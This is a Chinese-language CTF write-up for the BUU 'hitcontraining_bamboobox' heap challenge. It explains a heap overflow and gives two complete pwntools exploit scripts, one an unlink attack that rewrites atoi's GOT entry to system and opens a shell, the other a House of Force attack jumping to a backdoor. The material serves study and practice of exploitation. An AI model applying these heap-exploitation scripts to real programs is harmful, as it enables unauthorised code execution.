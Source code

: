 ```yaml
---
title: BUU-hitcontraining_bamboobox
date: 2022-09-01 19:33:45
tags:
- pwn
- heap
- buu刷题
---
```


Unlink在做完`stkof`后仍是有点理解问题，这题较`sktof`简单些，正好拿来巩固了一下unlink。虽说是做出来了，但是原题是`House of Force`的例题，顺便也记录一下。

<!-- more -->

# BUU-hitcontraining_bamboobox

因为Buu的flag无法用给定的magic函数获取，所以只能多走几步，通过获取shell来get flag

![checksec](/img/image-20220901173046870.png)

## ida分析

### add_item

add_item流程：1、获取item_name长度 2、在itemlist记录item_name和chunk_addr

![image-20220901173643685](/img/image-20220901173643685.png)

### change_item

允许输入任意长数据，存在堆溢出

![image-20220901174104795](/img/image-20220901174104795.png)

### remove_item

无UAF

## exp1 Unlink

程序仅利用itemlist来记录chunk情况且got表可改写，考虑修改itemlist处指针的指向。利用Unlink修改content_addr处为atoi.got地址，修改got表项为system后键入`/bin/sh\x00`获取shell

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')

p = process("bamboobox")
elf= ELF('./bamboobox')
libc=ELF("ubuntu16_x64.so")

def dbg():
	gdb.attach(p)
	pause()

def add(size,payload):
	p.recvuntil(b"Your choice:")
	p.sendline(b'2')
	p.recvuntil(b'Please enter the length of item name:')
	p.sendline(str(size))
	p.recvuntil(b"Please enter the name of item:")
	p.send(payload)

def show():
	p.recvuntil(b"Your choice:")
	p.sendline(b'1')

def change(idx,size,payload):
	p.recvuntil(b"Your choice:")
	p.sendline(b'3')
	p.recvuntil(b'Please enter the index of item:')
	p.sendline(str(idx))
	p.recvuntil(b'Please enter the length of item name:')
	p.sendline(str(size))
	p.recvuntil(b"Please enter the new name of the item:")
	p.send(payload)

def dele(idx):
	p.recvuntil(b"Your choice:")
	p.sendline(b'4')
	p.recvuntil(b"Please enter the index of item:")
	p.sendline(str(idx))

add(0x16,b'a'*0x18) #无用chunk malloc出来玩的=.=
add(0x30,b'b'*0x30) #被unlink的chunk
add(0x80,b'c'*0x80) #触发unlink的chunk

target = 0x6020d8 #itemlist chunk1 content_addr
fake_fd = target - 0x18 #绕过unlink判定
fake_bk = target - 0x10

payload=b'a'*8 + p64(0x31) + p64(fake_fd) + p64(fake_bk) + b'b'*0x10
#payload = fake_presize + fake_size + fake_fd + fake_bk + padding
payload+= p64(0x30) + p64(0x90)
#payload += presize(fake) + size 堆溢出构造unlink条件
change(1,len(payload),payload)
dele(2) #触发unlink
#unlink结果：itemlist中chunk1的content_addr修改为了itemlist[0]地址
atoi_got = elf.got["atoi"]
payload = p64(0x16) + p64(atoi_got)
change(1,len(payload),payload)#修改chunk0的content_addr为atoi.got地址
show() 
p.recvuntil(b"0 : ")
atoi_addr = u64(p.recv(6).ljust(8,b"\x00"))
success("atoi_addr:"+hex(atoi_addr))
#泄露libc基址
libc_base = atoi_addr - libc.symbols["atoi"]
system_addr=libc_base + libc.symbols["system"]
success("system: " + hex(system_addr) )
#修改atoi.got表项为system地址
payload=p64(system_addr)
#利用atoi获取shell
change(0,len(payload),payload)
p.recvuntil("Your choice:")
p.sendline(b"/bin/sh\x00")
p.sendline(b"cat flag")

p.interactive()
```

### before unlink

![parseheap](/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202022-09-01%20185628.png)

![itemlist](/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202022-09-01%20190225.png)

### after unlink

![parseheap](/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202022-09-01%20190443.png)

![itemlist](/img/image-20220901191251286.png)

### after change

![itemlist](/img/image-20220901191504206.png)

修改了chunk0处chunk_addr的指针指向。因为如下语句`0x6020d0`处的字节被置为0

```c
*(*&itemlist[4 * v1 + 2] + read(0, *&itemlist[4 * v1 + 2], v2)) = 0;// 堆溢出
```

### 泄露基地址及修改got表

![image-20220901192048246](/img/image-20220901192048246.png)

![image-20220901192243604](/img/image-20220901192243604.png)

## exp2 house of force

```python
magic_addr = 0x400d49
add(0x20,b"a"*0x20)

payload = 0x28*b'b'+p64(0xffffffffffffffff)

change(0,0x30,payload)

#top_chunk=0x212f040, target=0x212f018, top_chunk_target=0x212f000(需要是MALLOC_ALIGN倍数)
#offset =0x40 即((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK) == -0x50
req = -0x50 - 15 - 8
p.recvuntil(b"Your choice:")
p.sendline(b'2')
p.recvuntil(b'Please enter the length of item name:')
p.sendline(str(req))
p.recvuntil(b"Please enter the name of item:")
p.sendline(b'zzzz')
add(0x10,p64(magic_addr) * 2)

p.interactive()
```

### after change

![屏幕截图 2022-09-02 162628](/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202022-09-02%20162628.png)

### House of Force

![屏幕截图 2022-09-02 170139](/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202022-09-02%20170139.png)

再次malloc获取0x23ad018的控制权限，写入后门地址，获取flag

### 问题

- 在实现house of force时，read函数理论上读取了`zzzz\n`写入到`0x23ad060`位置。在动态调试时程序确实执行了这一操作，但是结果并未往目标位置写入内容

- wiki上的exp中第一次malloc的大小为`0x30`，其house of force的偏移值计算为`-(0x60+ 0xf+ 0x8)`。

  理论上当第一次malloc的大小为`0x10`时，偏移值计算为`-(0x40+ 0xf+ 0x8)`，此时`top chunk`大小为`0x38`，仍然可以分配出`0x20`控制target。但是在实现过程当中，程序在`malloc(-(0x40+ 0xf+ 0x8))`后将无法继续运行。

感觉HOF所需的前置条件有些苛刻，过程也不如前些方法来得可控(?)，希望过些时间能把问题弄清楚吧.
